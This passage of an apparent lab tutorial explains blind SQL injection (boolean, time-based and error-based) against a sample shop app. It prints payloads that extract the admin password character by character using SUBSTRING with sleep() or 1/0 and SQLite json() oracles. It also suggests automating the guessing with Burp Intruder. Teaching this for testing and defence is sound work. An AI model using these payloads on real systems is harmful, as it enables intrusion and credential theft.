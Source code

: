 we can take advantage of this boolean output to guess the password for the admin user,for example,with this payload
```sql
pen' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a' --
```
the query then becomes
```sql
SELECT * FROM items WHERE name = 'pen' 
  AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a' -- ';
```
if the first character is a it returns item is in stock ,if not it outputs item is not in stock

### 3.1 time-based sql injection
Time-based SQL Injection is a type of blind SQL Injection attack that relies on database delays to infer whether certain queries return true or false.
It is used when an application does not display any direct feedback from the database queries but allows execution of time-delayed SQL commands. 
The attacker can analyze the time it takes for the database to respond to indirectly gather information from the database.
the payload for our previous example will be something like:
pen' AND IF((SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')= '5', sleep(5), 0) --
this will allow us guess the first character of the field by monitoring response time of the website ,we can automate the process with burpsuite's intruder or with an automated script
however,the sleep function could be filtered or there is a short timeout for the response wich would make it difficult if not inpossible to perform a time based exploitation
what else can we do?
### 3.2 error-based sql injection
another blind exploitation is error-based sql injection, which is based on the fact that the application will return an error message when the query is invalid.
same as time-based sql injection,we can guess the first character of the field by monitoring response time of the website ,we can automate the process with burpsuite's intruder or with an automated script

Examples:
- undefined values (like 1/0)

```sql
   select if(1=1, 1, 1/0) -- OK
   select if(1=2, 1, 1/0) -- error
```

- Using json() function in SQLite to trigger an error as an oracle to know when the injection is true or false.

```sql
' AND CASE WHEN 1=1 THEN 1 ELSE json('') END AND 'A'='A -- OK
' AND CASE WHEN 1=2 THEN 1 ELSE json('') END AND 'A'='A -- malformed JSON
```
the payload for our previous example will be something like:
pen' AND IF((SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')= '5', 1/0, 0) --
NB:make sure the error is a database error not an error from another unrelated functionality in the web app
### an error / time based example
we are now interested in the review functionality
examining the code of the review api we find a vulnerbale query responsible for submitting a review in he database
